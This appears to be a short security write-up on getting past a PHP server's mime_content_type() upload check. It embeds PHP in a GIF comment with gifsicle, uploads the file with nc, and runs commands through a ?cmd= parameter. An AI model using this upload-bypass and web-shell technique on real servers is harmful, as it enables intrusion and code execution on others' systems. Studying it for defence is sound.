 ### Get Around of mime_content_type or finfo
In this example we get around the php's *mime_content_type()* function.

\_ The server accept **GIF** images and use only the *mime_content_type()* function for verify that the image is valid. If we put **PHP** code in comment of the GIF, like php is a template language, with a php extension, the GIF will be executed.

\_ For insert comment in GIF file we use the following command :

``gifsicle < spmUM.gif -- comment "`cat exploit.php`" > output.php``

 Now we can upload our file: `nc upload 80 < raw`. After that we can execute the script from a navigator (e.g : http://hostname/upload/uploads/?cmd=touch+newfile)
